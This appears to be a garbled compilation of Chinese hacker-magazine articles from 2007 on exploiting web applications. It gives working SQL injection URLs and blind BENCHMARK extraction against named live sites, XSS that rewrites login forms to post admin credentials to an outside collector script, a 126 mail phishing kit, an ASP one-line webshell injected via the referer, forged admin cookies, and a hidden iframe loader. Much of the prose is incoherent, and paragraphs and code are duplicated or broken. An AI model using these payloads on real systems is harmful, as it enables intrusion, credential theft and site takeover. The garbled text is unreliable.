你的意思都懂，你们家有多星星啊，文叔就教诲我的孩子，累亲着事。可别拿家章事，这东西比咱们这边大，还就形体不会被人用到。我，明白了，呐且是合法商人，我是医生，文叔是市场部经理。成年以后，我都不再是黑客。编辑真可汗：短短的几个月，新会已经延续三年了，不如连作者还是不会转载住下写，不管是你，后来，是不是都不多了，到后来大还是顾儿过得几个月了。说实话，这不妨弄不弄好新页面，看起来都是《要素》以前的东西，这是次最先一知年的自星，尽管文叔也总是开怀而放弃责任的人，但他是

描述忘记：
拒绝的几个月，听头合已经连出三条了，不如让作者还不会被拉住于写，不写任何东西，《要素》直到前水上目标是想朋友们为，环层下不了，确实大家说的大内爆。

# 跨出精彩

# 酷玩 XP 留言簿跨站利用

## 小天思绪

有些朋友和小短说，居怀码，我说用，找来找去还找出几个几乎很简单的漏洞，比如 SQL 注射啦，跨站啦 的，找到后最多心中，我没用就直接评论也没想到就答了！
千万不能轻敌，可以将的是这五大记住啦，小弟站外的手门走或者说一下文章，一来大家点评不断的势冲。之后我干脆是大白地的课程，很多花样子吧一句话让我很的跨站应用，跨站站风恶趣该了不少。
本次不包含站点的成功，期待更精彩的跨站应用。

从本文中你可以学到：

- 跨站的一些不一样的思路
- 进入跨站的高级利用的大门！

记得在某个论坛上看过某牛人说过一句话：“有的时候看文章还不如看 LCX 对文章的点评。”俺对这段话记忆犹新，从那以后每次都注意 LCX 对文章的点评，正好看见第8月的163博客我又看上了，LCX 对文章的点评是：为什么每个人找到跨站，凡是弹出一个 alert 就完事了呢？其实跨站每可以做很多的事，比如：发现实条，利用较定，所以跨站被某牛人评为自成精明……

```html
<script>alert("X")</script>
```

图1 查看源代码

# 2007.12 -> [新漏洞续看]

function addpost(){

// 添加留言

$u_sex, $u_mail, $u_qicq, $u_page, $u_text.

global $user_time;
if(!isset($_time)){
    $user_time = trim($u_name)!='';
}

if($submit){
    if(trim($u_name)==''){ showerror('昵称不能为空，请重新填写'); }
    elseif(time()-$user_time < $admin['timeout']){ showerror('防灌水设置，无效时间限制'); }
    elseif(!checkemail($_mail)){ showerror('邮件地址格式不符！'); }
    elseif(!ereg('^[<>\.#|?%/\$]*', $u_mail)){ showerror('邮件写作不能含有特殊字符'); }
    elseif(!str_len($u_name) > 15){ showerror('昵称太长，非法!'); }
    elseif(!ereg('[\x00-\x1f\x7f]', $u_name)){ showerror('昵称中含有特殊字符'); }
    elseif(!ereg('^[0-9,\;]+$', $u_qicq)){ showerror('QQ号码只能是数字或英文句子中的数字'); }
    elseif(!ereg('^\s*$', $u_page)){ showerror('主页字符串有误，主页及合等空串一定提交'); }
    elseif(!ereg('http://', $u_page)){ showerror('主页网址不能为空'); }
    elseif(!strstr($_u_text,'http://')){ showerror('留言内容中不能包含任何链接'); }
    elseif(!strstr($_u_text,'admin')){ showerror('留言内容中不能含有管理员信息'); }
    else {
        if($u_sex == '男'){
            $u_qicq='未知';
        }
        $u_page='http://' . $u_page;
        $safeinput($u_text);
        $u_text = 'HIDE';
        $post = "[留言成功，感谢对我们的支持!]";
    }
} else {
    showerror('非法操作!');
}

再看看 safeinput 函数:

function safeinput($d){ // 输入内容安全转换
    $d = str_replace("'", "\'", $d);
    $d = str_replace("\n", "<br>", $d);
    $d = str_replace("\r", "", $d);
    $d = str_replace("\t", "&nbsp;", $d);
    $d = str_replace("&", "&amp;", $d);
    $d = str_replace("<", "&lt;", $d);
    $d = str_replace(">", "&gt;", $d);
    $d = str_replace("\"", "&quot;", $d);
    $d = preg_replace('/\[HIDE\]/s', '', $d);
    return $d;
}

cast /logo.

如果你觉得还不够，那我们来改 BODY 里内容，直接在 JS 里写成如下内容：

function Phish(){
    // 这里省略若干代码...
    document.write(...) 
}

大家看看回到了什么，直接就可以改页面了，如图 6 所示。
如果想挂掉来改页面了，把 JS 内容改为：

document.write('<iframe style="display:none;" src="http://xxx.com/xx.htm"></iframe>')，就可以了，那能不能再高级点呢？其实我们还可以改页面变成一个自己想做的登录页面，将某单纯的登录页面直接放在服务器上了程序，这个小创意似乎以前就提到过了，是个 ASP 的程序，不过和 PHP 都是一样的，在地址栏提交：javascript:alert(document.forms.length)，会弹出当前页面几个表单，如图 7 所示。

使用javascript:alert(document.forms[0].action)，查看第一个表单的属性，指向 /test/index.php?action=add，如图 8 所示。
只要我们改了表单的 action 属性就会到管理员用户账号和密码，这里如果在 JS 里改成 document.forms[0].action='http://hacklu.net/test/pass.php'，pass.php 内容如下：

<?php
Header('Location: http://127.0.0.1/test/index.php');
if(isset($_POST['admin_name'])&&isset($_POST['admin_pass'])){
    $file_path='password.txt';
    $file = @fopen($file_path,'w');
    $string = 'Username:'.$_POST['u_name'].' and password:'.$_POST['a_pass'];
    @fwrite($file,$string);
    @fclose($file);
}
?>


# phpBB Links MOD

## 又一个注射漏洞的发现与利用

从本文你可以学到：
1. Phpbb 漏洞的利用
2. BENCHMARK 函数的利用技巧

Phpbb 是个国际著名的论坛，它自身的安全性非常高，但是很多人对于论坛开发的插件安全上都就不太可靠了。上个月 milworm 上公开了 phpbb 的 links 插件的漏洞，这个插件使用非常常非常常用，在 phpbb.cn 都支持了。大家可以通过 google 搜索关键字“Links MOD v1.2.2 by phpBB2”来搜集使用这个插件的网站。

本来觉得补丁打了应该没有问题了，但是火狐的 love fly 兄说可能还有问题，我跟着看了下，果然还有另外一个注射漏洞没有修补。出问题的就是 $cat，看片 links.php 的代码（我在网页边写的这个注入，牛杯多了就乱套了）。

```php
if (isset($HTTP_POST_VARS['cat']) || isset($HTTP_GET_VARS['cat'])) {
    $cat = (isset($HTTP_POST_VARS['cat']) ? $HTTP_POST_VARS['cat'] : $HTTP_GET_VARS['cat']);
    if (empty($cat)) {
        $cat = -1;
    }
}
```

下面 $cat 连续几次出现也不要单引号闭合的查询语句中：


接下来：


我们再用 javascript:alert(document.forms[0].action) 来看，已经指向远程服务器文件了，如图 9。
这样只要管理员登录就会直接访问到登录的账号，这是完全可以利用漏洞完成的。其实这也不是新技术，只是我在前人思路上再写了一下。最后，大家找到可以来非安全。


编辑点评：
终于的一点如何利用网站进行内容注入实践，在 SQL 这类的今天，看来也不是一件多么难的事。另外，我们还可以了解到一些实现登录的技巧。其实在浏览器的地址中，可以再加入一些，有什么补救的方法可以改头换面，防止他来被访问的情况，似乎很难。

看上去比较好利用，但是大家看没有发现啊其实出问题的查询语句列数不一样呢？一个是要匹配两列，第二次则要三列才能匹配。我们却通过 union 查询前后返回列数一样的，但是在这里无论我们用 union 1,1,1 还是 union 1,1 都一样能有一处报错的地方，因为这个原因，我们只好使用 mysql 的 BENCHMARK 来查看了（关于这个函数的更详细的解释，请参看 MySQL 的 BENCHMARK 函数的利用）之一。

```sql
SELECT l.u.username
FROM { LINKS_TABLE } AS USERS_TABLE
WHERE l.link_active=1 AND l.link_category
```

这次就好一个比较好利用，但是大家看没有发现啊其实出问题的查询语句列数不一样呢？一个是要匹配两列，第二次则要三列才能匹配。我们却通过 union 查询前后返回列数一样的，但是在这里无论我们用 union 1,1,1 还是 union 1,1 都一样能有一处报错的地方，因为这个原因，我们只好使用 mysql 的 BENCHMARK 来查看了（关于这个函数的更详细的解释，请参看 MySQL 的 BENCHMARK 函数的利用）之一。

我以 http://www.phpbbchina.com 作为简单的帖子注射语句的构造。密码是 32 位的 md5，就是说只要考虑 123456789abcdef 这 16 个字符，字符 1–9 对应的是 48–57，字符 a–f 对应的是 97–102。请为 2 的 2 的注射语句这样构造：
http://www.phpbbchina.com/forum2/links.php?t=sub_pages&cat=-99%20union%20select%20user_password,benchmark(5000000,md5(0x41))%20FROM%20bb2_users%2WHERE%20user_id=2%20and%20or(SUBSTRING(user_password,1,1)=48/4)


依次猜解下去，当然对的时候会明显地有函数的现象，然后可以猜解一下。这里手工是最为方便的，我改写了个 exploit 来利用。代码就不贴出来解密了，你应该可以从前书找出上下文。其中关键点是读取出字典网站页面也没了，由于 in 语句的方式，此处其实用了 BENCHMARK 来测试一下，如图 1（也已经被我抹掉了）来做传输精密检验，现场的细微变化，被我发现。

文章到这里，欢迎大家和我讨论这个技术问题，我的 QQ 是 378367942。要开始我工作以后，仍然不知道还有没有时间再写文章，感谢此安全提供的平台让我们交流得如此开心。

编辑点评：
本文介绍了一个并不常见的高效 BENCHMARK 的利用，大家通过 MySQL 来模拟网站所有多倍深度的函数，一种是比较隐藏的技巧，用于构造高负载，另一种是输出页面的对比研究。期待有更多多的交流。

# 跟我学 126 邮箱 跨站漏洞的利用

从本文你可以学到：

1. 126跨站漏洞利用
2. 跨站漏洞利用技巧

## 一、写在前面

漏洞源于 jackal's BLOG，我只是把它的漏洞内容写成了 MYSQL 数据库的模式，让广大菜鸟学习下。因为原文对于菜鸟来说太难懂了！至于原文漏洞分析我就不多说了，主要给大家讲下漏洞的利用！

接着就介绍大家 7 个文件，其中 getpass.php，import.sql，MYSQL.php，show.php，mail.html 这 5 个文件是需要传到支持 MYSQL 的空间上去并放在同一目录下的。

1. getpass.php，需要修改数据库地址、数据库用户名、密码还有数据库名，这 4 处都需要修改自己对应的数据库地址、数据库用户名、密码还有数据库名。
2. import.sql，MYSQL.php这两个文件修改数据库名成为自己的就可以了！

SHOW.PHP文件是我们来看收集的用户名称和密码表输出文件，MAIL.HTM是我自己改好的伪装成 126 登录页面的 HTM文件。

以上的文件是必须传到服务器并且放在同一目录下的，以下还有两个文件是我们跨站要用到的工具和代码！其中 XSS.HTM 是跨站代码转化工具，是作者在原文中给出的。我只是把它改画而已，这个工具是用来将你要转化成伪装成代码的，因为不加密贴器是不能转转的，此文不能能贴站！另一个文件 XSS.TXT 是跨站的代码，等下我会教大家使用！

## 二、漏洞测试

将修改好的文件 getpass.php、import.sql、MYSQL.php 和 MAIL.HTM 传到自己的空间，接着找到 MAIL.HTM 的地址中 http://xxx.com/mail.htm，接着打开 XSS.HTM，将你要转化的代码粘贴到其中“你要伪造的页面”位置，再点击“转化”。

只要一有人打开邮件，程序就会自动从通讯录里面的好友发送站点邮件，那样就可就太恐怖了！

## 四、漏洞防范
- 不要随便打开陌生人的邮件。
- 如果打开邮件出现了不正常情况（比如跳转），就要警觉了！

## 五、写在后面
对于126的站我就


说这么多了，最后需要提醒广大菜鸟朋友们的就是，漏洞或许并不仅仅出现在这两个邮箱，作者在原文中还提到了QQ邮箱也有同样的跨站漏洞，可是经我用作者给出的代码测试并没有成功，也许是作者当时版本放置的代码作修改了，或许还有其他的原因，在这里就不深究了，所以大家在以后的网络中一定要小心再小心，以免变成别人的肉鸡！

【作者文中列出的几个文件已经收录在光盘中】

编辑点评：
跨站的威力被逐渐发挥出来以后，大家的重心也转移到了站点上来，我评觉得原来对 SQL 更，现在看到跨站的利用，不少人还对木马新增感觉出了一个司法，找出漏洞并加以修补，目前我们希望电脑、网站等系统能离开这些漏洞，大家就不难受所知：近来都在讲 IP 的安全、钓鱼等问题。随着互联网的发展，大家变得越来越离不开网络，看来不再是一个绕不开的技术话题。

# 寻找阿江统计系统注入点拿 WebShell

从文本你可以学到：
1、实战阿江统计系统
2、注入点实战

show_OP.asp这个文件的第4至12行代码如下：

```vb
If Request("op")<>"" Then
  tOP = Request("op")
  If tOP="" Then tOP=0
  tOP = CLng(tOP)
End If

' ...
```

很多点，单引号被替换成了两个单引号。我采用了转义字符的方法，用 chr(39) 来闭合 SQL 查询语句中前后的两个单引号，但没有成功。如果那个函数被成功了，语言能统一……再看到原来的办法了，还是有在代码中。这次实现在了……


再者它的第285行，代码如下：

```vb
' ...
' 写入详细信息
' 代码略部分...
if not s0re then
  O_来源 =
  if site.CanS[9] then SaveOP 0, VComeHost, vcome
  if site.CanS[10] then SaveOP 1, vpage
  KeyW = FindKey(vCome)
  ...
```

在页面上有后台登录，但不知道用户名和密码，放弃，不作考虑。在阿江统计系统中很多都只是关于查询，很多都必须是规律查询，如图2。那有没有搜索到这儿呢？书上说，对是否存在搜索型注入判断最常用的办法就是用“来判断”，试了一下，没有作用，可能是被过滤了，看下文就知道了，


# 飞越企业网站管理系统之新闻发布管理系统 V9.2 漏洞解析

从本文可以学到：ASP 漏洞分析利用

飞越企业网站管理系统之新闻发布管理系统，也是功能比较齐全的企业网站新闻发布管理软件了。今天无事，所以下载着代码来看，没有想到在测试时，竟然打开后有好多功能都不能正常使用，完整的程序原价 280 元，联系某 UFO，只需 250 元。莫非啊，花的钱的程序就一定好吗？我看也不见得，下面是我在阅读代码时发现的一些安全问题。

## 一、注入

注入主要发生在（shownnews.asp），其代码也比较明显，关键代码如下：

```asp
<%owen=request("id")%> // 获取 id 的值，赋值给 owen
<% 
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&cstr(request("id"))
conn.execute sql
sql="select * from news where id="&owen
rsnews.Open sql, conn, 1,1 // 执行查询语句。
title=rsnews("title")
%>
```

通过 SaveOP 函数提交的参数写入数据库。我们现在来看看这个函数，如果没有过滤，我们就有希望了。

```asp
' 保存内容信息
sub SaveOP(Snum,Scon,Scon2)
  Scon=replace(Scon,"'","")
  Scon2=replace(Scon2,"'","")
  set tmprs=conn.Execute("select id from Origin_Page where O_Type=" & Snum & " and O_Content='" & Scon & "' and Site_Id=" & SiteID)
  if tmprs.eof then
    conn.Execute("insert into Origin_Page (SiteId,O_Type, O_Content, O_LastURL, O_Today, O_Today_... ) values (...) ")
  else
    conn.Execute("update Origin_Page set O_Today=O_Today+1, O_LastURL='" & Scon2 & "' ...")
  end if
end sub
```

通过上面我们能看到，对提交的参数没有进行任何检查，过滤就直接写入到数据库中。哈哈，有门。我们现在就来写一句话木马看看。提交的参数如图 3。

```text
http://127.0.0.1/ajjang2.1/stat.asp?style=text&referer=<SCRIPT>RUNAT=SERVER LANGUAGE=vbSCRIPT>eval(Request("1"))</SCRIPT>
```


现我在用 IEVAI 客户端来连接上去，结果如图 4、图 5。看到没有，物理路径都出来了，下面取 webshell 成功了。好了，我的任务也完成了。

互联网网上有很多网站都是用的这套计数程序，知道了阿江统计系统的漏洞，我们又会多了很多的内容。高兴！但取这样的内容还要有个前提条件，就是必须先知道数据库路径，并且数据库为 asp 或 asa 后缀！

最后，我又测试了一下目前阿江统计系统的最新版本 2.2，仍然存在着同样的注入点和本文的利用办法。

> 编辑点评：很努力的思路突破了火药味，尽管漏洞比较隐蔽，但还是发现了，并利用方法是有效的，正在不断的完善，这一定是很有价值和有对网站建设维护都相当有帮助的。

# 【新闻练练看】<2007.12> 注安全·黑客手册

javascript:alert(document.cookie="id="+escape("30 and 1=1"));javascript:alert(document.cookie="id="+escape("30 and 1=2"));然后再访问shownews.asp文件，果然出错，如图2、3。

## 二、跨站

跨站主要出现在人才招聘版块的SaveAcceptJob.asp文件中，其关键代码如下：

```
Set rs = Server.CreateObject("ADODB.Recordset")
sql = select * from jobbook
rs.open sql, conn, 3
...
rs.addnew
rs("jobname") = request.form("jobname") 'job名称
rs("name") = request.form("name") '姓名
rs("sex") = request.form("sex") '性别
rs("birthday") = request.form("birthday") '出生年月日
rs("marry") = request.form("marry") '婚否
rs("school") = request.form("school") '毕业院校
rs("study") = request.form("study") '学历
rs("speciality") = request.form("speciality") '专业
rs("gradyear") = request.form("gradyear") '毕业时间
rs("telephone") = request.form("telephone") '电话
rs("email") = request.form("email") '邮箱
rs("address") = request.form("address") '通信地址
rs("ability") = htmlencode2(request.form("ability")) '水平能力介绍
```

这样防止的是防不住的。我们来测试一下，分别在地址栏中提交：

```
rs(resumes) = htmlencode2(request.form("resumes")) // 个人内容
action = time.now()
rs.update // 更新
rs.close
response.write "<SCRIPT language=JavaScript>alert(1)</SCRIPT>"
response.write "javascript:history.go(-2)</SCRIPT>"
```

这个程序员也真够厉害的，居然有那么多项什么也不过滤，直接导致了严重的跨站。我们直接在能输的地方插入跨站代码（除水平能力介绍外，凡有入库的字段都输入跨站代码），提交。管理员在登录后台看应聘管理的时候，直接执行跨站代码，如图4弹出很多的跨站窗口。

## 三、上传

来到后台我看了下上传功能，添加新闻版块、上传图片，一看就知道是熟悉的上传文件，结果我下载了曾用代码进行比较，代码居然一样，我在网上找了一下关于普通的上传漏洞利用方法，没能成功。因为我在网吧，不能装IIS。所以只有用ASP空间进行测试了，可能是空间的问题，调试没能成功。不过我也相信肯定是他个洞。

## 四、总结

总的来说这套程序的安全性是非常差的，程序员对程序的不负责任，和抄别的代码，现成的也相承了。真不知道程序员GG们是怎么想的，这样的程序也敢拿出来卖呀！所以大家在买程序的时候最好先测试一下试用版的安全性再去买，不然买了一个全是漏洞的程序。

> 编辑点评：现在一些中小型的系统在这么一个趋势：写程序的人自己不懂安全，使用者也不懂安全，于是乎程序越做越大，安全缺口也越来越深，凡是被“盗版”的、“有洞”的程序，总是一个更具被攻击的对象。开发者不仅要注重“前台”的功能，更要注意“后台”的安全。

从本文你可以学到：1、跨站的利用 2、cookie 欺骗

## 一、跨站

跨站主要存在于VoteSave.asp(发表评论)和Vip_RegOk.asp(注册用户)中，下面就以VoteSave.asp为例，先看代码：

# **黑客安全·黑客手册 2007.12 → [漏洞练兵篇]**

……后台还“有‘备份数据’等功能，不只有管理员可以上传，我们无法备份木马，但是我们可以把 conn.asp 等文件备份成 .txt 文件，具体代码大家自己测试……还有就是那个“系统数据库路径配置”写一句话木马，如果数据库地址不是默认的话，更改后网站就无法访问了，需要手工改回来……

# **二、后台 cookie 欺骗**

在查看后台验证代码的时候，发现后台用的是 cookie，而且并没有经过数据库的二次验证，Admin_Qx.asp 的代码如下：

```
<%
Qx=Request.Cookies("Cookies")("Qx")
if Qx<>"admin" then
    response.write "<script language='javascript'>alert('对不起您没有权限进行此项操作!');history.go(-1);</script>"
    response.end
else
end if
%>
```

只要 Qx 不等于零就通过！再看 Admin_Session.asp 的代码：

```
<%
AdminName=Request.Cookies("Cookies")("AdminName")
set session, 是否是非注册用户登录!
if AdminName<>"" then
    response.Redirect "Admin_Login.asp"
end if
%>
```

AdminName 和 Qx 差不多，如果不为空就通过！是不是没有进行数据库的二次验证？这样的验证我们可以伪造 cookie 欺骗登录后台，只要这样构造 cookie：`Cookies=user&Cookies=0&AdminName=admin&Qx=1` 访问后台就直接进去！下面我们找官方测试一下。

## 三、测试官方

数字图腾的官方地址“www.pic52.com”，我们用老式 cookie 欺骗工具来测试，修改 cookie 为 `Cookies=user&Cookies=0&AdminName=admin&Qx=1` 后，访问 `http://www.pic52.com/admin/Admin_index.asp`，第一次访问会转到 admin_login.asp，需要把地址改回来再次访问，如图8，进行后，随便找个地方上传木马，然后备份回来了就行了，如图9、图10所示。

## # Sf-blog 漏洞分析

从本文你可以学到：
1. ASP 漏洞分析
2. 手工利用漏洞

看《黑客手册》已经有一段时间了，发现上面的分析漏洞文章非常多而且详细，很适合我们这种自己找漏洞的菜鸟们，为了检验一下自己的学习成果，今天在网上看到一套名曰：SF-Blog 的系统，就拿它开刀吧。SF-blog 完全使用了 ASP+ACCESS 编写，模板采用了 QQ 空间样式，样式美观大方。目前发展到了 1.1 版，但是安全性方面却不尽如人意，下面我简单地分析一下 V1.1 版的漏洞：

### 一、注入：

前台 article.asp 和 photos.asp 中的注入漏洞，我以 article.asp 为例，查看源代码发现：

```
<%
Dim Recordset1,MMColParam
Recordset1__MMColParam = Request.QueryString("id")
If (Request.QueryString("id") <> "") Then
  Recordset1__MMColParam = Request.QueryString("id")
End If
%>
```

```
<%
Dim Recordset1
Dim Recordset1__mmRows
Set Recordset1 = Server.CreateObject ("ADODB.Recordset")
Recordset1.ActiveConnection = MM_conn_STRING
Recordset1__MMColParam = Replace(Recordset1__MMColParam, "'", "''")
Recordset1.Source = "SELECT * FROM cont WHERE id = " & Recordset1__MMColParam
Recordset1.CursorLocation = 2
Recordset1.LockType = 1
Recordset1.Open
Recordset1__numRows = 0
%>
```

从上面我们看出 Recordset1__MMColParam 仅仅过滤了单引号运行数据库查询语句，对于数字型变量来说还是远远不够的。

在 `http://localhost/asp/sf-blog[v1.1]/Article.asp?id=29`，再在后面加个 `and=1`，浏览器却返回如下文字：“对不

再看源代码发现 article.asp 中包含：`<!--#include file="safe.asp"-->`，一定是 safe.asp 做了过滤。代码如下：

```
<%
If Request.Form("sql_leach") <> "" Then
  For Each Sql_Post In Request.Form
    For Sql_Data=0 To UBound(sql_leach(Sql_Data))
      If InStr(Request.Form(sql_Post), sql_leach(Sql_Data))>0 Then
        Response.Write "对不起，检测已经终止"
        Response.End
      End If
    Next
  Next
End If
%>
```

过滤的字符虽然比较全面，但没有将提交的字符转换成小写来验证，所以我们提交只要不是全是小写的字符就可以突破了，这里我会修改为大写。

在 `http://localhost/asp/sf-blog[v1.1]/Article.asp?id=29` 后加 `AND 1=1` 发现页面正常显示，如图2所示。

### 二、后台跨站漏洞：

修补方法也很简单，只需将 safe.asp 中的 `if instr(Request.QueryString(SQL_Get), sql_leach_0(Sql_DATA))>0` 和 `if instr(Request.Form(Sql_Post),sql_leach_0(Sql_DATA))>0` 改为：

`if instr(lcase(Request.QueryString(SQL_Get)),sql_leach_0(Sql_DATA))>0` 和 `if instr(lcase(Request.Form(Sql_Post)),sql_leach_0(Sql_DATA))>0` 就可以了。由于程序中限定了提交数据方式为 Request.QueryString，所以我们并不能用 cookie 进行输入的方式，转换成小写再查找就可以了。

`And 1-2` 发现页面显示错误，如图3所示。提交 `AND EXISTS(SELECT name FROM admin)` 返回正常，说明存在 admin 表，且该表中存在 name 列；提交 `AND EXISTS(SELECT mina FROM admin)` 返回正常，说明 admin 表中存在 mina 列（由于过滤了 > < ,所以我们并不能用 `AND EXISTS(SELECT ... FROM admin)` 来猜测是否存在表名），如图4所示。

猜解字段名及数值猜解字段的长度，语法为 `AND (SELECT TOP 1 LEN(name) FROM admin BETWEEN x AND y`（由于过滤了 > < ，所以我们并不能用 `AND (SELECT TOP 1 LEN(name) FROM admin) > x` 来猜解字段名，如何突破呢，那就用 `BETWEEN ...AND...` 语句吧），x 和 y 是列名的长度，由 `BETWEEN ...AND...` 来确定字段的范围。当提交 `AND (SELECT TOP 1 LEN(name) FROM admin) BETWEEN 1 AND 5` 返回正常，说明字段的范围进一步缩小在 1 到 5 之间；继续提交 `AND (SELECT TOP 1 LEN(name) FROM admin)=1, =2....` 都返回错误，当猜到列名的长度为 5，知道 5 所示。

接下来猜解用户名和密码，语法为：`AND TOP 1 ASC(MID(name,1,1)) FROM admin BETWEEN x AND y`，x 和 y 为 ascii 码，提交 `AND (SELECT TOP 1 ASC(MID(name,1,1))) FROM admin BETWEEN 1 AND 100` 返回正常，说明 name 字段的第一个字符的 ascii 码为 96，即 a，如图6所示。

依照上面的方法（拆半查找法），同时变换 `ASC(MID(name,1,1))` 为 `ASC(MID(name,2,1))`, `ASC(MID(name,3,1))`.......可以解出 name 字段的其他字符的 ascii 码，进而得到管理员用户名的用户名（因为表是在本站独立的系统，用户名和密码为默认值）。猜解完用户名，就该猜管理员的密码，具体方法参照上面。

SF-BLOG 中的所有数据库插入代码，在插入时都没有经过过滤，也就是说，只需绕过 safe.asp 和输出时的 coder 函数过滤就可以了。

由于在 safe.asp 中过滤了 `<` 和 `>`，使得包含 safe.asp 的页面已经不能再用自身构造的 html 标记进行跨站了，但是并不代表用户不能在已经存在的 html 标记中插入符号，比如说 article.asp 之类的有文章列表及上传文章的内容（它的作用就是在当前会显示自己名义添加的文章）还是出现了漏洞，我们来看一下它的提交代码：

```
<table style="table-layout:fixed; word-break:break-all;" id="table6">
<tr>
<td>
<font><%=UBBencode(coder(Recordset1.fields.Item("content").Value))%></font>
</td>
</tr>
</table>
```

注意最后一行，表示显示文章的内容，先用了 coder 函数进行过滤，并用了 UBB 编码，coder 函数代码如下：

```
Function coder(str)
  Dim result,l
  If IsNull(str) Then coder="": Exit Function: End If
  l=Len(str): result=""
  For i=1 To l
    select case mid(str,i,1)
      case "<": result=result+"&lt;"
      case ">": result=result+"&gt;"
      case chr(34): result=result+"&quot;"
      case "'": result=result+"&#39;"
      case chr(13): result=result+"<br>"
      case chr(10): result=result+"<br>"
      case chr(32): result=result+"&nbsp;"
      case else: result=result+mid(str,i,1)
    end select
  Next
  coder=result
End Function
```

我们在后台 Admin/Article_Add.asp 添加一篇文章，标题

写上游站，写内容时先点击图片按钮，这时在左框中出现 `[IMG]` 的字样，在其中间添加 `javascript:alert(document.cookie)`，可以得到代码被执行的效果。如果7所示。

在输出时会被 UBB encode 函数转换成 `</img>`，而 html 标记的属性里不支持 javascript:code 的形式，所以会弹出 cookie 对话框。接下来我们点击更新，刷新首页 default.asp，这时弹出了如图8所示的对话框。

修补方法加过滤处理：

```
javascript
case result=="" ? result=result.replace(/\+/g,'%3d') :
case result=result.replace(/\//g,'')
```

后台的其他地方如：更改网名：admin/myname.asp、添加个人说明：admin/myinfo.asp……既没有包含在后台.asp而且在输出时又没有用 code 码输出过，都在此视为直接加入 `<script>` 标记的跨站漏洞，这里就不一一列举了。

### 三、后台验证 WEBSHELL：

进入后台发现有添加图片的地方，先传个 asp 为后缀的木马试试，谁知一提交上传马上就弹出了错误提示，如图9所示。

查看代码发现使用了 Javascript 本地验证：

```
javascript
function checkFileUpload(form, extensions, requireUpload, sizeLimit, minWidth, minHeight, maxWidth, maxHeight, saveWidth, saveHeight)

javascript
if ((extensions != '') && (field.value != '') && !new RegExp("\." + extensions + "$", "i").test(field.value)) {
    alert("请选择要上传的档案");
    document.MV_returnValue = false;
    field.focus();
    break;
}
```

我们打开 WSockExpert.exe 进行监听上传页面，将刚才的 asp 木马改为 jpg 格式，然后抓包，将抓到的内容保存为 1.txt，然后将 test.jpg 改为 test.asp，并将抓到的内容保存为 1.txt，然后用 net 命令把 127.0.0.1 80 <1.txt。根据命令行返回的信息：`window.open.form1.showImg.src='photo'+ '/' +'test.asp'`，知道上传的路径为 photo\test.asp，在浏览器中输入 `http://localhost/ASP/SF-Blog\v1.1/photo/test.asp` 成功得到了上传的木马，如图10所示。

### 四、尾声：

总的来说，SF-blog 的安全性不是最高，尤其在 safe.asp 中的没有将提交的字符串强制转换成小写，便于传统的安全性形成漏洞；而且在后台的很多页面没有用 safe.asp 来进行过滤，所以产生了不少的跨站漏洞，也许这也是作者大意了吧！至于取得 webshell 的过程也相当轻松。

编辑点评：
文章没有什么新的技术，有的只是作者对写第一步一步的技术的实践和深刻的思考，很紧凑、短小，但是又比较清晰，对普通用户来说是值得学习的。我们有理由相信，明天会更好。

# 新云程序的小漏洞，大危害

从本文你可以学到：
- 新云程序小漏洞的利用演示

影响版本：
- 新云程序所有站，包括新云官方网站。

前言：
大家都应该知道，新云程序在国内还是比较流行的，一些门户网站都在用的新云程序。不错的，百度搜索一下便知道了。

## 证安卫·黑客手册 2007.12 →【新闻编辑篇】

存在的危害并不小！所以提醒广大网站的同仁一定要提高网络安全意识。先问个故事，为了说明问题，用新云官方网站地址测试的。返回如下页面，如图1。


如果把 http://www.newasp.net/link/link.asp?id=26&url= 后面的 URL 复制到 IE 地址栏中，可以看到被跳转到百度页面。类似地，地址中的字符串经过 URL 编码后可形成不同的跳转效果。下面对这种情况进行分析，并给出防范建议。

> 编辑点评：作者对这个现象进行了分析，虽然不是首次发现，但将其整理成文，说明问题较为完整。对于站点跳转和 URL 参数处理，仍需加强防范。

oldjun[SST]{&}SUS

# 再次公开[X讯] 两个不为人知的 0day

本文你可以学习到：一种发现漏洞的方法及利用。前几天玩讯官方网站服务器被挂了，虽然不是自己所为，但感觉还是有点对不起……如果不是上次我跟 flyh4t 搞出那个漏洞，肯定不会引起大家对风闻的关注……

```
Set RsUserListObj = Server.CreateObject("FS_RS")
if Request("Keyword") <> "" then
    ...
    sRsSQLs = " and UserName='" & Request("Keyword") & "'"
end if
...
RsUserListObj.Open RsUserSQL, User_Com, 1, 3
```

下面直接执行了：代码写得太随便了，怎么能直接用 request("keyword") 呢？真不知道讯风怎么想的……利用代码如下：

```
Set RsUserNewsObj = Server.CreateObject("FS_RS")
if Request("Keyword") <> "" then
    ...
RsUserNewsObj.Open RsUserNewsSQL, User_Com, 1, 3
```

```
1. http://demo.foosun.net/user/userlist.asp?Name=UserName&keyword=' union select 20,20,25%20... 
2. http://demo.foosun.net/user/userlist.asp?Name=UserName&keyword=' and 1=2 ...
```

注：如果加上去为一般管理员，则用下面的代码：&Keyword=1';update%20FS_MF_Admin%20set%

438

# Xor在SQL渗入中的运用
——对 piblug 最新 SQL 注入漏洞分析

从本文你可以学到：
1. Xor 在 sql 中的运用
2. Sql 注入利用的详细过程

## 一 写在前面

很多的课程都面临着考试，本来好好复习的，但是想到以后的生活又觉得别人势力就觉得特疲，此文不得不写点陈说来凑点生活费。最近都没做什么代码，在 BCT 的网站里面发布了 sobinyj 服务器测试攻击的漏洞公告，由于漏洞测试对别人的网站造成伤害，所以 sobinyj 并不在有具体的漏洞后台。下载 piblug 程序分析，发现其根据 sobinyj 所发布的 blog 文章里的图片找到了漏洞。

## 二 SQL 过滤函数

Piblug 程序从外部的所有的变量，包括 cookies 都经过 common/function.asp 文件中的 CheckStr() 进行了过滤。代码如下（// 为对代码的注释）

```
Function CheckStr(byVal ChkStr)
  Dim Str, Str1
  If IsNull(ChkStr) Then
    CheckStr = ""
    Exit Function
  End If
  Str = Replace(Str, "<", "&amp;lt;")
  Str = Replace(Str, ">", "&amp;gt;")
  Str = Replace(Str, "'", "&amp;#39;")
  Str = Replace(Str, "\"", "&amp;#34;")
  Dim re
  Set re = new RegExp
  re.IgnoreCase = True
  re.Global = True
  re.Pattern = "(select|insert|create|drop|delete|alter)"
  Str = re.Replace(Str, "")
  CheckStr = Str
End Function
```

从上面的代码及分析来看，sql 注入基本上没戏了。因为我们的 sql 注入中最关键的词的 sql 查询语句的关键字都被过滤掉了。

## 三 异或 xor

